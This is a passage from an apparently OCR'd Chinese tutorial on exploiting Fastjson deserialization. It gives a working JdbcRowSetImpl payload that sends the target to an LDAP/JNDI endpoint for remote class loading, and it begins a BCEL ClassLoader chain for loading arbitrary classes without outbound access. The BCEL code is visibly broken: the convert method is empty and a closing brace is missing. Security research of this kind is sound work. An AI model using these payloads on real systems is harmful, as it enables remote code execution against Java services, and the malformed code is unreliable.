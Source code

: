 ```bash
        /*
            public void setAutoCommit(boolean var1) throws SQLException {
        */
// 第三个值传入一个布尔值


        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/rNMfFuPI\",\"AutoCommit\":\"false\"}";

        JSON.parseObject(s);
    }
}
```

#### 限制：

版本限制，依赖限制，出网（JNDI 外联）

### FastJsonBcel 类 + 动态类加载（不出网）：

#### 调用链：

我们在 jdk 的内置类中找到了这样一方法，能够进行动态类加载，就是 ClassLoader 里面的 loadClass 方法，在里面调用了 defineClass：

[![](assets/1701612260-1efa2d0212e378142c28552c36e0e840.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230155-dd150508-2969-1.png)

我们先来看一下如何使用这里的动态类加载来加载任意类：

我们想要调 defineClass，就要保证 clazz 不为 null，然后我们就要调前面的`createClass`方法，然后里面调用了`decode`方法返回了 clazz 值，所以我们在编写 exp 的时候就需要先进行一个`encode`：

[![](assets/1701612260-2c5440b20a08ec2fa925b885816c06ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230203-e210d758-2969-1.png)

```bash
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
        //使用 BCEL 方式动态加载一下
        classLoader.loadClass("$$BCEL$$"+code).newInstance();


    private static byte[] convert(String s) throws Exception{
    }
}
```
